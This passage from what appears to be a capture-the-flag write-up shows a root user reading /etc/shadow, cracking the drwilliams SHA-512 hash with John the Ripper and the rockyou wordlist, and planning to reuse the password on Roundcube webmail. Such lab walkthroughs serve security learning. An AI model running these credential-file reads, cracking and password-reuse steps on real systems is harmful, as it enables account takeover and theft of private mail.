 Now that we have access as root in the linux machine, we can try to crack the hash of /etc/shadow.

```bash
root@webserver:/tmp## cat /etc/shadow | grep "drwilliams"
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
```

```bash
❯ cat drwilliams.hash
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: drwilliams.hash
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ $6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

❯ john -w=/usr/share/wordlists/rockyou.txt drwilliams.hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
qwe123!@##        (?)     
1g 0:00:00:15 DONE (2024-04-09 18:02) 0.06285g/s 13516p/s 13516c/s 13516C/s rufus11..pakimo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now that we have that password, let's try to reuse it to roundcube webmail service and see if we can see his mails:

![Branching](/assets/images/Hospital/mail_drbrown_eps.png)
